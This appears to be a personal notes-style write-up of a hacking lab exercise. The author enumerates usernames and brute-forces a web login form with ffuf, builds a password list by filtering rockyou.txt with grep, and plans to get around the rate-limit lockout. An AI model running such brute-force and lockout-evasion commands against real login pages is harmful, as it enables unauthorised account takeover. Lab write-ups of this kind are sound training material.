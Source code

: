 The submit data here looks like: 
userid=test&email=test%40email.com&passwd1=Aaaaaaaaaaaaaaaaaaaa%402&passwd2=Aaaaaaaaaaaaaaaaaaaa%402&submit=submit

So lets try:
`ffuf -w /Users/noneya/Useful/SecLists/Usernames/top-usernames-shortlist.txt:FUZZNAME -u 'http://94.237.56.188:37996/register.php' -d 'userid=FUZZNAME&email=test%40email.com&passwd1=Aaaaaaaaaaaaaaaaaaaa%402&passwd2=Aaaaaaaaaaaaaaaaaaaa%402&&submit=submit' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -mc 200`

Interestingly both test and guest return the same size... maybe guest is a user?

Try:
`ffuf -w passwordsShortlist.txt:FUZZ -u 'http://94.237.56.188:37996/login.php' -d 'userid=guest&passwd=FUZZ&submit=submit' -X POST -H 'Content-Type: application/x-www-form-urlencoded'`

Doesn't seem like it.

When I log I a button that says send a message to another user. And when I try admin it fails saying user not found. Maybe this is where I enumerate.

Resetting the box and logging in again, I pass that request to the send messages again with the same user list.

Hmm guest does exist. So maybe I have wrong list of passwords...

Lets create a new set:
`grep "^[A-Z]" rockyou.txt | grep '[[:lower:]]' |  grep -E '^.{20,29}$'`

Trying again:
`ffuf -w passwordsShortlist.txt:FUZZ -u 'http://83.136.252.32:47603/login.php' -d 'userid=guest&passwd=FUZZ&submit=submit' -X POST -H 'Content-Type: application/x-www-form-urlencoded'`

Nope...

So reading some hints, they point me to the support page, which says they have unified their accounts into one account support. When I try to send a message to support it works... Maybe I can sign in with that.

`ffuf -w passwordsShortlist.txt:FUZZ -u 'http://83.136.252.32:47603/login.php' -d 'userid=support&passwd=FUZZ&submit=submit' -X POST -H 'Content-Type: application/x-www-form-urlencoded'`

Nope...

`ffuf -w passwordsShortlist.txt:FUZZ -u 'http://83.136.252.32:47603/login.php' -d 'userid=support.us&passwd=FUZZ&submit=submit' -X POST -H 'Content-Type: application/x-www-form-urlencoded'`

I'm pretty certain this is the grep I need:
`grep "^[A-Z]" rockyou.txt | grep -E '^.{20,29}$' | grep '[0-9]$' | grep '[[:lower:]]' | grep '[#$@]'`

So I think the issue is that I am not rate limiting. Too many failed attempts make me wait 27 seconds.

Lets try:
`ffuf -w passwordsShortlist.txt:FUZZ -u 'http://94.237.63.83:47837/login.php' -d 'userid=support.us&passwd=FUZZ&submit=submit' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -rate 1`

Still too fast. Lets write a quick python script that waits 30 seconds after 5 attempts before going again.
